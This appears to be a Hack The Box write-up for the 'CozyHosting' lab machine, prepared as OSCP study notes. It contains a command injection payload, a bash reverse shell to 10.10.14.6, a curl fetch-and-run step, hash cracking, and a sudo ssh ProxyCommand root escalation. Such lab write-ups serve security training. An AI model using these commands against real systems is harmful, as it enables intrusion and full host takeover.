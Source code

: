 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
## 🔍 Reconnaissance

### ⚛️ Nmap Scanning

```bash
nmap -p- --min-rate 10000 10.10.11.230
nmap -p 22,80 -sCV 10.10.11.230
```

- Open ports: **22 [SSH](SSH)**, **80 [HTTP](HTTP)**
- Web server: nginx 1.18.0
- Redirect to `cozyhosting.htb` confirms host-based routing

### 🌐 Website Analysis

- Login page sets `JSESSIONID` — confirms Java-based backend
- Site has a Spring Boot default error page on 404

### 🔮 Directory Fuzzing

```bash
feroxbuster -u http://cozyhosting.htb
```

```bash
feroxbuster -u http://cozyhosting.htb -w /opt/SecLists/Discovery/Web-Content/spring-boot.txt
```

- Interesting routes:
    - `/actuator` endpoints (e.g., `/mappings`, `/env`, `/sessions`)
    - `/admin`, `/executessh`, `/addhost`

## 🤖 Shell as `app`

```bash
curl -s http://cozyhosting.htb/actuator/mappings | jq .
```

### 💰 Session Hijacking

- `GET /actuator/sessions` leaks session IDs
- Use cookie in browser dev tools to hijack `kanderson`'s session

### ⚒️ Command Injection via `/executessh`

- POST request to `/executessh` with hostname and username
- Injection through username using `${IFS}` or brace expansion:

```bash
username=0xdf;{ping,-c,1,10.10.14.6};#
```

- Verified ICMP echo via `tcpdump`

### 🛠️ Reverse Shell

1. Serve a reverse shell script:

```bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

2. Use `curl` from target to download:

```bash
curl http://10.10.14.6/rev.sh -o /tmp/rev.sh
```

3. Trigger execution:
    

```bash
bash /tmp/rev.sh
```

4. Catch shell on listener:

```bash
nc -lnvp 443
```

## 👤 Shell as `josh`

### 🔎 Enumerate Java App

- Found `cloudhosting-0.0.1.jar` running under Java
- Unzipped and extracted `application.properties`

```bash
grep -r password .
```

- Credentials:
    
    - DB: postgres / `Vg&nvzAQ7XxR`
        

### 🔢 Postgres DB Access

```bash
PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
```

- Found `users` table with bcrypt password hashes
    

### 🔒 Hash Cracking

```bash
hashcat -m 3200 -a 0 -o cracked.txt hashes rockyou.txt
```

- Cracked admin hash: `manchesterunited`
    

### ☕ User Pivot

```bash
su - josh  # or
ssh josh@cozyhosting.htb
```

- Read `/home/josh/user.txt`
    

## 🕵️‍♂️ Privilege Escalation to Root

### 🗜️ Sudo Permission

```bash
sudo -l
```

- Can run `/usr/bin/ssh` as root
    

### 🔀 Exploiting ProxyCommand

```bash
sudo ssh -o ProxyCommand='touch /tmp/owned' x
sudo ssh -o ProxyCommand='cp /bin/bash /tmp/rootbash' x
sudo ssh -o ProxyCommand='chmod 6777 /tmp/rootbash' x
/tmp/rootbash -p
```

- Got root shell!
    
- Read `/root/root.txt`
    

---

## 🔧 Tools Used

- `nmap`
    
- `feroxbuster`
    
- `curl`, `jq`
    
- `Burp Suite`
    
- `hashcat`
    
- `nc`, `tcpdump`
    
- `jd-gui`
    
- `psql`
    

## 📓 Takeaways

- Java Spring Boot is **leaky** with actuator endpoints ⚡
    
- **Session hijacking** via `/actuator/sessions`
    
- **Command injection** via user input using `${IFS}` and brace expansion
    
- `ssh -o ProxyCommand=` is powerful for **root privilege escalation**
    

## 🔗 References

- [Spring Boot Actuator docs](https://docs.spring.io/spring-boot/docs/current/actuator-api/html/)
    
- [GTFObins: ssh](https://gtfobins.github.io/gtfobins/ssh/)
    
- [HackTricks: Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
    
- [jd-gui Java decompiler](https://github.com/java-decompiler/jd-gui/releases)